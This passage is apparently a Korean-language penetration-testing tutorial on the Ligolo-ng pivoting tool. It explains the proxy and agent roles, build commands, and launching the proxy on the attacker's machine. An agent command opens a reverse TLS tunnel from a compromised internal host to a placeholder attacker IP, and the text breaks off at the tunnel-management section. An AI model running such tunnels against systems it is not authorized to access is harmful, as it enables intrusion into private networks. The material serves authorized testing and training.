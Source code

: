 ###  Ligolo 사용 단계
- proxy (proxy.exe): Ligolo를 사용할 공격자 머신에서 실행할 Ligolo 서버
- agent (agent.exe): 공격자 머신(proxy 실행중인 머신)에서 터널을 구축한 뒤 프록시로 사용될 머신에서 사용할 에이전트 파일

Ligolo의 사용 단계:

1. (공격자 머신) proxy 로 ligolo 서버 실행 
2. (피벗할 머신) agent 업로드
3. (피벗할 머신) agent 실행, 공격자 머신의 ligolo 서버와 터널 구축 
4. (공격자 머신) 터널 session 접속. 이후 autoroute 명령어를 통해 새로운 NIC과 사용할 route 설정
5. (공격자 머신) autoroute가 끝났다면, 4번에서 지정한 route/네트워크에 평범하게 접근하면 끝 


### Ligolo-ng 설치 및 사용법 요약

#### 1. 다운로드 및 설치

- GitHub repo : https://github.com/nicocha30/ligolo-ng

```bash
sudo apt update -y ; sudo apt install golang-go -y 
cd /opt
git clone https://github.com/nicocha30/ligolo-ng
go build -o agent cmd/agent/main.go
go build -o proxy cmd/proxy/main.go

# 윈도우에서 사용할 경우 GOOS를 windows로 설정후 exe로 빌드
GOOS=windows go build -o agent.exe cmd/agent/main.go
GOOS=windows go build -o proxy.exe cmd/proxy/main.go
```

***

#### 2. 프록시 서버 실행 (공격자 측)

```bash
# proxy 서버를 실행할때는 반드시 sudo 권한으로 실행
sudo ./proxy -selfcert
```

- 자동으로 자체 서명된 인증서를 생성하여 TLS로 통신
- 프록시는 공격자의 터널링 노드 역할

***

#### 3. 에이전트 실행 (내부 침투 호스트)

```bash
./agent -connect <공격자_IP>:11601 -ignore-cert
```

- 공격자 서버에 리버스 연결을 수립
- `-ignore-cert` 옵션은 TLS 인증서 무시(테스트/내부 네트워크용)

***

#### 4. 터널 관리
